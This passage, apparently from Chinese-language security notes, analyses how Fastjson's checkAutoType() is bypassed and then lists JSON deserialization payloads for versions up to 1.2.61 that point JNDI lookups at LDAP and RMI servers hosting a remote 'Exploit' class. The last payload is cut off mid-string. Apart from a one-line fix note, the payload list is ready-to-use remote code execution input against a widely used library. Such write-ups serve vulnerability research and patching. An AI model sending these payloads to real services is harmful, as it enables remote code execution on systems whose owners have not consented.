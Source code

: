 **[1]  ParserConfig.checkAutoType()：**

```java
// 不执行
if (autoTypeSupport || expectClass != null) {
            ......
        }
		// 执行
        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }
		// 不执行
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null
                    && clazz != java.util.HashMap.class
                    && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
			// 执行
            return clazz;
        }
```

---

**如何修复：**

不给加载到Map即可，缓存开关cache默认设置为了False



【详情代码查看：1.2.25-1.2.47.java】

---

### Fastjson <= 1.2.61 通杀

​																				——[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

**Fastjson1.2.5 <= 1.2.59**

**需要开启AutoType**

```java
{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://localhost:1389/Exploit"}
{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://localhost:1389/Exploit"}
```

**Fastjson1.2.5 <= 1.2.60**

```java
{"@type":"oracle.jdbc.connector.OracleManagedConnectionFactory","xaDataSourceName":"rmi://10.10.20.166:1099/ExportObject"}

{"@type":"org.apache.commons.configuration.JNDIConfiguration","prefix":"ldap://10.10.20.166:1389/ExportObject"}
```

**Fastjson1.2.5 <= 1.2.61**

```java
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploi
```

